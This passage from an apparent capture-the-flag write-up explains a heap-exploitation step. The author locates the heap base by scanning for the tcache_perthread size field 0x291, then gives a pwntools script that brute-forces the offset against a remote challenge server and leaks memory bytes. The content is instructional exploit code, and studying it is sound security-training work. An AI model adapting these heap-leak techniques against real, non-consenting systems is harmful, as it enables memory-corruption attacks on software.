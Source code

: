The first chunk of the heap will be the tcache_perthread, and its size field is 0x291.

we can easily scan the heap until we see this value, indicating we found the start of the heap.

To find the most optimal guess, I ran ton of tests with my `./test` program, and found the median of those values, it gave me: 0x121b000.

Here is the first part of my exploit, which finds the offset to the heap:

```py
def find_base_heap_offset():
    global p
    clap(1, heap_offset)
    
    if b'Segmentation fault' in p.recvline():
        print("Wrong guess. trying again...")
        p.close()
        return 0 

    curr = heap_offset + 8

    clap(20, 0) #writing non-null to 0

    for i in range(0x22):
        print(f"Trying {hex(curr)}")
        clap(1, curr)

        print(p.recvline())

        leak = p.recvline()[13:14]
        
        if leak == b'\x91': #if its the start of heap
            return curr - 8
        curr -= 0x1000

def main():
    global p
    heap_offset = 0
    idx = 0
    while heap_offset == 0:
        if REMOTE:
            p = remote("mc.ax" , 31040)
            p.recvuntil("work:\n")
            work = p.recvline()[:-1].decode()
            token = work.split()[-1]
            PoW = os.popen(f'./pow {token}').read()
            print(PoW)
            p.sendline(PoW)

        else:
            p = exe.process()

        heap_offset = find_base_heap_offset()
        idx += 1

    clap(1, heap_offset + 8) #swap back the tcache sizefield
    log.info(f"Found heap start @ {hex(heap_offset)}")
```
